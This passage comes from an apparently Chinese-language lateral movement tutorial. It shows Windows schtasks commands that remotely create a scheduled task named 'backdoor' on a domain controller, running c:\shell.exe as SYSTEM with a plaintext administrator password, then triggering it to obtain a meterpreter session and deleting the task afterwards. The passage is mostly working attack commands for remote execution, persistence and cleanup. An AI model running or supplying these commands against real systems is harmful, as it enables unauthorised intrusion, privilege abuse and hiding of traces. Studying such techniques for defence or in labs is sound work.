 在没有建立ipc连接时，要加上/u和/p参数分别设置用户名和密码。

但也有些时候，由于当前权限或组策略设置等原因，该schtasks方法远程创建计划任务可能会报错拒绝访问：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

遇到这种情况，我们可以加上/u和/p参数分别设置高权限用户名和密码，如下：

```


```
schtasks /create /s 192.168.183.130 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f
```




```

这样就行了：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

4. 然后执行如下命令立即运行该计划任务（也可以自己等一分钟）：

```


```
`schtasks /run /s 192.168.183.130 /i /tn backdoor``// i：忽略任何限制立即运行任务schtasks /run /s 192.168.183.130 /i /tn backdoor /u administrator /p Liu78963   // 遇到上面所说的报错时执行加上/u和/p参数分别设置高权限用户名和密码`
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

计划任务成功执行后，攻击者msfconsole上面即可得到目标主机DC的meterpreter：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

5. 计划任务成功运行后，执行如下命令强制删除该计划任务：

```


```
schtasks /delete /s 192.168.183.130 /tn "backdoor" /f
```




```

